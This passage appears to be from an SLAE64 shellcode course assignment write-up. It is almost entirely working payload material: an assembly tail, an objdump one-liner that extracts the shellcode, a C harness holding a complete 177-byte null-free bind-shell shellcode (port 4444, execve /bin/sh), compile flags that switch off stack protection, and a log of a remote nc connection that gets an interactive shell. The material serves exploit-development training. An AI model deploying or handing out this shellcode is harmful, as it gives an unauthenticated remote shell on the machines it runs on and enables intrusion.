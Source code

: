 ```term
        ; Call the Execve syscall
        add rax, 59
        syscall
```

Let's assemble, link this and get its shellcode!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; 
done;echo
```

C format:

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\xb0\x29\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x48\x31\xed\x66\x6a\x02\x66\x5d\x89\x44\x24\xfc
\x66\xc7\x44\x24\xfa\x11\x5c\x66\x89\x6c\x24\xf8\x48\x83\xec\x08\xb0\x31\x48\x89\xe6\xb2\x10\x0f\x05\x66\x6a\x02\x66\x5d\xb0\x32\x48\x89\xee\x0f\x05\xb0\x2b\x48\x83\xec\x10\x48\
x89\xe6\xc6\x44\x24\xff\x10\x48\x83\xec\x01\x48\x89\xe2\x0f\x05\x49\x89\xc1\xb0\x03\x0f\x05\x4c\x89\xcf\xb0\x21\x48\x31\xf6\x0f\x05\xb0\x21\x66\x6a\x01\x66\x5d\x48\x89\xee\x0f\x
05\xb0\x21\x66\x6a\x02\x66\x5d\x48\x89\xee\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x0
5"

;

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ gcc null-free.c -o null-free -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ ./null-free 
Shellcode Length:  177
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.205 4444 -v 
192.168.100.205: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.205] 4444 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1/B$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1/B$ 
```
